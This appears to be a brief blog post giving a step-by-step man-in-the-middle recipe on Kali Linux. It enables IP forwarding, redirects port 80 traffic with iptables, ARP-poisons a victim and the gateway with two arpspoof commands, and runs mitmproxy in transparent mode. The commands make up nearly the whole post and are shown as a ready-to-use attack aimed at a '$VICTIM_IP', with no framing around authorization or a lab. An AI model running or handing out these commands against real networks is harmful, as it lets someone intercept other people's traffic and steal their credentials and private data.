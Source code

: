 ```yaml
---
layout: post
title: "Intercept HTTP Traffic with Mitmproxy and Arpspoof on Kali Linux"
tags: [mitmproxy, arp, kali, linux, network]
---
```


1. Enable IP forwarding & port redirection
```bash
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```

2. Use `tmux` to run 2 instances of `arpspoof`:
```bash
arpspoof -i $INTERFACE -t $VICTIM_IP $GATEWAY_IP
```
```bash
arpspoof -i $INTERFACE -t $GATEWAY_IP $VICTIM_IP
```

3. Run `mitmproxy` in transparent mode:
```bash
mitmproxy -T --host
```

---
1. [http://jeffq.com/blog/setting-up-a-man-in-the-middle-device-with-raspberry-pi-part-1/](http://jeffq.com/blog/setting-up-a-man-in-the-middle-device-with-raspberry-pi-part-1/)
